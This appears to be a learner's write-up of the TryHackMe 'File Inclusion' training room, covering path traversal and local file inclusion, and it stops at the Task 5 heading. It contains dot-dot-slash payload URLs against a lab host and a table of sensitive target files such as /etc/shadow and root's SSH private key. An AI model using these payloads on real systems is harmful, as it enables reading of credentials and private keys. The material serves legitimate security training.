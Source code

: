 [TryHackMe | File Inclusion](https://tryhackme.com/room/fileinc)

# TryHackMe-File-Inclusion
'**File Inclusion:**  This room introduces file inclusion vulnerabilities, including Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal.`

## Task 1 Introduction
![image](https://user-images.githubusercontent.com/58542375/173562517-0fd0332f-1dcf-4eb6-930b-ea733680e0e7.png)

## Task 2 Deploy the VM

## Task 3 Path Traversal
[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

![image](https://user-images.githubusercontent.com/58542375/173564652-1c6871a3-35a5-418b-abe1-72241193152e.png)

![image](https://user-images.githubusercontent.com/58542375/173564886-67831530-4ba2-4445-ab51-e538e0af6a93.png)

![image](https://user-images.githubusercontent.com/58542375/173565211-10cb2f8f-3fb7-47a1-ae36-4de62e541d07.png)

*dot-dot-slash attack*

`http://webapp.thm/get.php?file=../../../../etc/passwd`

`http://webapp.thm/get.php?file=../../../../boot.ini`

`http://webapp.thm/get.php?file=../../../../windows/win.ini`

```
C:\Windows>cd ..

C:\>dir *.ini
 Volume in drive C is Windows
 Volume Serial Number is BADE-41F7

 Directory of C:\

File Not Found
```

```
C:\Windows>dir *.ini
 Volume in drive C is Windows
 Volume Serial Number is BADE-41F7

 Directory of C:\Windows

07-Jun-20  03:31 PM            37,625 cfgall.ini
06-Jun-18  02:44 AM               219 system.ini
06-Jun-18  02:44 AM                92 win.ini
               3 File(s)         37,936 bytes
               0 Dir(s)  45,286,510,592 bytes free

C:\Windows>type win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

|Location|Description|
|----------|------------|
|/etc/issue| contains a message or system identification to be printed before the login prompt.|
|/etc/profile|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|/proc/version|specifies the version of the Linux kernel|
|/etc/passwd|has all registered user that has access to a system|
|/etc/shadow|contains information about the system's users' passwords|
|/root/.bash_history|contains the history commands for root user|
|/var/log/dmessage|contains global system messages, including the messages that are logged during system startup|
|/var/mail/root|all emails for root user|
|/root/.ssh/id_rsa|Private SSH keys for a root or any known valid user on the server|
|/var/log/apache2/access.log|the accessed requests for Apache  webserver|
|C:\boot.ini|contains the boot options for computers with BIOS firmware|

## Task 4 Local File Inclusion - LFI
![image](https://user-images.githubusercontent.com/58542375/173569223-618fb0a2-c5c9-4e79-9465-9622322ab422.png)

![image](https://user-images.githubusercontent.com/58542375/173571368-0162dbef-2b3f-41af-918d-c39c119c0773.png)

## Task 5 Local File Inclusion - LFI #2

